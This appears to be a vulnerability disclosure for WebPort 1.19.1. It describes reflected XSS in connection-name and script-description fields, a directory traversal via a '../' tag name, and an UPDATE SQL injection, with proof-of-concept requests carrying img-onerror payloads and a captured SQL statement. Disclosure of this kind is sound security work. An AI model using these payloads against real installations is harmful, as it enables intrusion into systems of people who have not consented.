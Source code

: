# WebPort 1.19.1

---

# Reflective xss  in /access/setup?type-conn

in /access/setup?type-conn, in connection name，parameter name will be injected into HTML content with out any filter

```
http://127.0.0.1:8188/access/actionedit

type=conn&ip=localhost&name=localhost'%3Cimg+src%3D%2F+onerror%3Dalert(1)%3E&allow=1&showpageinfo=1&pin=1&print=1&autologin=

```
![image.png-72.2kB][1]

# Directory traversal in tags of system settings

in tags of system settings, we can create a tags file just like tags.csv in `\WebPort\system\tags`.

and if we set tag=`../test`，and we will create a test.csv in `\WebPort\system\`

![image.png-70.5kB][2]

![image.png-48.3kB][3]

# Reflective xss  in /script/listcalls

in /script/listcalls, in new called script, the description will be injected into HTML content with out any filter.

```
http://127.0.0.1:8188/script/actionedit

type=callscript&id=test&desc=test%3Cimg+src%3D%2F+onerror%3Dalert(1)%3E
```

![image.png-50.5kB][4]

# POST Reflective xss and SQL injection in  /log?type=error

in /access/setup?type-conn, in connection name，parameter name will be injected into HTML content with out any filter.

but if we set a connection name with a double quote or a single quote,just like `test"` or `test'`, the connection name will be injected into UPDATE SQL query.

![image.png-32.8kB][5]

just like 
```
UPDATE Data SET data = '{"default":{"IP":"default","Name":"default","Allow":true,"AllowPin":false,"Fullscreen":false,"ShowPageInfo":true,"Zoom":false,"Scale":false,"EmbedPdf":false,"PinSidemenu":true,"AllowScriptCall":false,"AllowPrint":true,"AutoLogin":"","AllowAccessTicket":false,"AllowAccessTicketCreation":false,"DisplayConfiguration":{}},"localhost":{"IP":"localhost","Name":"localhost'

","Allow":true,"AllowPin":false,"Fullscreen":false,"ShowPageInfo":true,"Zoom":false,"Scale":false,"EmbedPdf":false,"PinSidemenu":true,"AllowScriptCall":false,"AllowPrint":true,"AutoLogin":"","AllowAccessTicket":false,"AllowAccessTicketCreation":false,"DisplayConfiguration":{}}}' WHERE deviceguid = '59E1AAD5-8DF6-4A3A-88BD-E311A536F71B' AND key = 'Connections'
```

it is a UPDATE SQL injection.

if you set connection name just like a `localhost <img src="/" onerror="alert(1)">`, so this name will  be injected into HTML content with out any filter.

![image.png-98.4kB][6]

![image.png-34.6kB][7]




  [1]: http://static.zybuluo.com/LoRexxar/7f1ccmu1ljn1a3r93a3uk1po/image.png
  [2]: http://static.zybuluo.com/LoRexxar/2fwd8eczezrfjw6leijcfvr3/image.png
  [3]: http://static.zybuluo.com/LoRexxar/uaoqmap7bavj8oxm0wcdrx0w/image.png
  [4]: http://static.zybuluo.com/LoRexxar/kur1cwwkvynr90byb6vlveni/image.png
  [5]: http://static.zybuluo.com/LoRexxar/xrt3ttlhbl2wylb5m93144uw/image.png
  [6]: http://static.zybuluo.com/LoRexxar/j93e9wxdpg86bh6yz5v6u5ue/image.png
  [7]: http://static.zybuluo.com/LoRexxar/mqyfm0diuu2rr1q74f57vohd/image.png